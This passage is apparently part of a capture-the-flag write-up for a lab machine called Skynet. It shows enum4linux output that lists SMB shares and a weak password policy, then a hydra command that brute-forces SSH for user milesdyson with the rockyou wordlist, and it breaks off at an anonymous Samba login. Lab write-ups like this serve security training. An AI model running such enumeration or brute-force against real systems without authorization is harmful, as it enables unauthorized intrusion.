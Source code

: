         Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.10.32.220
//10.10.32.220/print$   Mapping: DENIED, Listing: N/A
//10.10.32.220/anonymous        Mapping: OK, Listing: OK
//10.10.32.220/milesdyson       Mapping: DENIED, Listing: N/A
//10.10.32.220/IPC$     [E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

 ==================================================== 
|    Password Policy Information for 10.10.32.220    |
 ==================================================== 


[+] Attaching to 10.10.32.220 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] SKYNET
        [+] Builtin

[+] Password Info for Domain: SKYNET

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 37 days 6 hours 21 minutes 
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 37 days 6 hours 21 minutes 


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 5

enum4linux complete on Wed Jan 20 15:48:45 2021
```

## Password Bruteforcing ##

Since we know ssh is open on the machine, and we have found a user, let's try to bruteforce its password"

```hydra -l milesdyson -P /usr/share/wordlists/rockyou.txt.gz 10.10.32.220 -t 16 ssh```

Unfortunately, no success, let's try some other ways, before attempting another bigger wordlist.

## Further Samba enumeration ##

Let's login into the samba service as ```anonymous:anonymous``` and see what we can find:
```